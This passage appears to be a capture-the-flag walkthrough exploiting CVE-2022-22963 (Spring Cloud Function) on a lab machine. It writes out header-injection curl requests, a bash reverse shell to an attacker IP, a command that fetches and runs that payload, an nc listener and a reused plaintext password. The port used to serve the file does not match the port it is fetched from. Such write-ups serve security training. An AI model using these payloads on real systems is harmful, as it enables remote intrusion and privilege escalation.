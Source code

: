 Let's search for an exploit (if there is one). We have found this [repository](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit) !

Upon reading the script, note that the request header looks like this:
```
curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("{cmd}")' -d '.'
```
> Where ```{cmd}``` should be replaced by a command !

So, let's create our reverse shell called [`index.html`](./exploits/index.html)
```
#!/bin/sh

bash -i >& /dev/tcp/10.10.16.56/9999 0>&1
```

To share the file, we need to create a python server in the exploit file directory!
```
python -m http.server 9000
```

Now, we need to send (and rename) our exploit to the target machine using the request format above!
```
curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("curl 10.10.16.56:9999/index.html -o /tmp/revshell")' -d '.'
```

Once that's done, we need to set up the listener! In the exploit file, we've set the port to 9999, so
```
nc -lvnp 9999
```

Let's execute it !
```
curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/revshell")' -d '.'
```

We're in! We're now using the user `Frank`!
```
frank@inject:/
```

Let's try to use the credentials we found earlier!
```
frank@inject:~$ su phil
Password: DocPhillovestoInject123
```

It worked! We're now `Phil`!

```
phil@inject:/
```

Let's check the user flag !
```
cat /home/phil/user.txt
```
